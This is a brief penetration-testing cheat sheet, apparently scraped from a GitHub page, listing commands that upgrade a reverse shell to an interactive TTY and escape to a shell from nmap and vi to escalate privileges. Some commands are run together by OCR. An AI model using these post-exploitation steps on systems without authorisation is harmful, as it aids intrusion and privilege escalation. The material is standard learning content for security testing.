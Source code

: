 ## **TTY Shell:**

```sql
python -c 'import pty;pty.spawn("/bin/bash")'
```

```sql
echo os.system('/bin/bash')
```

-   LUA
	```sql
	execute('/bin/sh')
	```

-   Privilege Escalation via nmap
	```sql
	!sh
	```
	
-   Privilege Escalation via vi
	```sql
	:!bash
	```


## Fully Interactive TTY
```sql

						 	In reverse shell 
python -c 'import pty; pty.spawn("/bin/bash")'Ctrl-Z                                

						  	In Attacker console
stty -a
stty raw -echo
fg                            

							In reverse shell
resetexport SHELL=bash
export TERM=xterm-256color
stty rows <num> columns <cols>

```

```sql

						 	In reverse shell 
script /dev/null -c bash Ctrl-Z                                

						  	In Attacker console
stty raw -echo; fg                            

							In reverse shell
reset
Terminal type?: xterm 
export TERM=xterm
export shell=bash 
stty rows 52
```
